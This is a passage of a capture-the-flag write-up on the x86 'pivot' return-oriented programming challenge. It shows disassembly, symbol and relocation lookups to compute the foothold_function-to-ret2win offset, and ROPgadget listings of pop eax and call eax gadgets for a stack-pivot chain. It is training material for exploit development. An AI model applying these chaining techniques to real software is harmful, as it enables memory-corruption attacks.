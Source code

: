 ```
 8048836:       66 90                   xchg   ax,ax
 8048838:       66 90                   xchg   ax,ax
 804883a:       66 90                   xchg   ax,ax
 804883c:       66 90                   xchg   ax,ax
 804883e:       66 90                   xchg   ax,ax
```

We can already see some REALLY valuable gadgets. Let's also get the offset from ```ret2win()``` to ```foothold_function``` by analyzing the shared object.
```
voidwalker@Abyss:[pivotx86]** nm libpivot32.so | egrep "foothold|win"
0000077d T foothold_function
00000974 T ret2win
```
And the offset seems to be 503 (0x974 - 0x77d).
Now, we need the relocation offset of ```foothold_function```:
```
voidwalker@Abyss:[pivotx86]** readelf -r pivot32 | grep foot
0804a024  00000807 R_386_JUMP_SLOT   00000000   foothold_function
```
And its ```PLT``` entry is outlined in the disassembly of ```uselessFunction``` (not so uselss after all, huh? :) ), as the address ```0x8048520```.

Alright! Time to look for some other useful ROP gadgets. Let's start by looking through the ```pop``` ones:
```
voidwalker@Abyss:[pivotx86]** ROPgadget --binary pivot32 | egrep "pop"
0x0804867c : add byte ptr [eax], al ; add byte ptr [eax], al ; push ebp ; mov ebp, esp ; pop ebp ; jmp 0x8048610
0x080484a4 : add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x0804867e : add byte ptr [eax], al ; push ebp ; mov ebp, esp ; pop ebp ; jmp 0x8048610
0x08048747 : add byte ptr [ebx - 0x723603b3], cl ; popal ; cld ; ret
0x08048895 : add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080484a6 : add esp, 8 ; pop ebx ; ret
0x0804867b : daa ; add byte ptr [eax], al ; add byte ptr [eax], al ; push ebp ; mov ebp, esp ; pop ebp ; jmp 0x8048610
0x08048894 : jecxz 0x8048819 ; les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x08048893 : jne 0x8048878 ; add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080484a7 : les ecx, ptr [eax] ; pop ebx ; ret
0x08048896 : les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x08048681 : mov ebp, esp ; pop ebp ; jmp 0x8048610
0x080484a2 : mov edx, 0x83000000 ; les ecx, ptr [eax] ; pop ebx ; ret
0x08048897 : or al, 0x5b ; pop esi ; pop edi ; pop ebp ; ret
0x0804882c : pop eax ; ret
0x08048683 : pop ebp ; jmp 0x8048610
0x0804889b : pop ebp ; ret
0x08048898 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080484a9 : pop ebx ; ret
0x0804889a : pop edi ; pop ebp ; ret
0x08048899 : pop esi ; pop edi ; pop ebp ; ret
0x080488b0 : pop ss ; add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x0804874d : popal ; cld ; ret
0x08048680 : push ebp ; mov ebp, esp ; pop ebp ; jmp 0x8048610
0x080488af : push ebx ; pop ss ; add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
```
Since we have so many ```pop eax``` gadgets we should look for some ```jmp eax``` or ```call eax``` ROP gadgets.
```
voidwalker@Abyss:[pivotx86]** ROPgadget --binary pivot32 | egrep "jmp eax"
voidwalker@Abyss:[pivotx86]** ROPgadget --binary pivot32 | egrep "call eax"
0x080485ea : adc al, 0x68 ; cmp al, 0xa0 ; add al, 8 ; call eax
0x080485ee : add al, 8 ; call eax
0x080485f0 : call eax
0x080485ec : cmp al, 0xa0 ; add al, 8 ; call eax
0x080485e9 : in al, dx ; adc al, 0x68 ; cmp al, 0xa0 ; add al, 8 ; call eax
```